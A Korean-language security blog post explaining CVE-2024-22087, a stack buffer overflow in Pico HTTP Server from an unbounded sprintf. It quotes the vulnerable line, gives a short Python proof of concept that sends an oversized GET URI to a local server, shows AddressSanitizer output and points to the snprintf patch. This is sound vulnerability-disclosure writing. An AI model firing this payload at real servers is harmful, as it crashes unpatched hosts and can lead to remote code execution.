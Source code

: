 ```yaml
---
title: "[하루한줄] CVE-2024-22087 : Pico HTTP Server의 Stack Buffer Overflow 취약점"
author: ogu123
tags: [BOF, Pico HTTP Server, ogu123]
categories: [1day1line]
date: 2024-02-19 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Remote buffer overflow in main.c](https://github.com/foxweb/pico/issues/31)

## Target

- Pico HTTP Server < 7a5e4e2 이전 커밋

## Explain

Unix 환경에서 웹 서비스를 호스팅 할 수 있는 Pico HTTP Server에서 Stack Buffer Overflow 취약점이 발생했습니다.

IoT 기기나 임베디드 시스템에 경우 메모리 보호 기법이 부족하거나 전혀 없는 경우가 많아, Pico HTTP Server를 사용하는 경우 원격 코드 실행으로 이어질 수 있습니다.


```
GET(uri) {
  char file_name[255];
  sprintf(file_name, "%s%s", PUBLIC_DIR, uri);
```
취약점은 `main.c` 파일의 81번 줄 `sprintf` 함수에서 발생했습니다.

`sprintf` 함수는 PUBLIC_DIR과 uri 문자열을 결합하여 file_name 배열에 저장합니다. 이때, file_name 배열 크기보다 큰 uri를 보낼 경우 Stack Buffer Overflow가 트리거됩니다.

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8000))
sock.send(b"GET /" + b"C" * 2000000 + b"HTTP/1.1\r\nHost: localhost:8000\r\n\r\n")
response = sock.recv(4096)
sock.close()
```
위 PoC는 서버로 file_name 배열의 크기보다 큰 uri를 보내는 코드입니다.

이를 실행시켜 취약점을 트리거 해보고 Address Sanitizer로 확인해 보겠습니다.

```
==960119==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7f214c10015f at pc 0x7f214e09215c bp 0x7ffe88c08220 sp 0x7ffe88c079e0
WRITE of size 65487 at 0x7f214c10015f thread T0
    #0 0x7f214e09215b in __interceptor_vsprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1765
    #1 0x7f214e09233e in __interceptor_sprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1808
    #2 0x556476f2cd71 in route /home/kali/projects/fuzzing/pico/main.c:81
    ...
```
PoC 실행 결과, `0x7f214c10015f` 주소에서 65,487 byte를 WRITE 수행 중 Stack Buffer Overflow가 발생했습니다.

발생 위치는 main.c의 81번 줄로 uri가 `sprintf` 함수를 통해 file_name 배열에서 overflow가 일어났다는 것을 알 수 있습니다.


![](cve-2024-22087/image1.png)

취약점에 대한 [패치](https://github.com/foxweb/pico/commit/e2d172fc2c1384589038fb89dff4d6b65a13bb90)는 출력될 문자열의 최대 길이를 지정할 수 있는 `snprintf` 함수로 변경되었습니다.

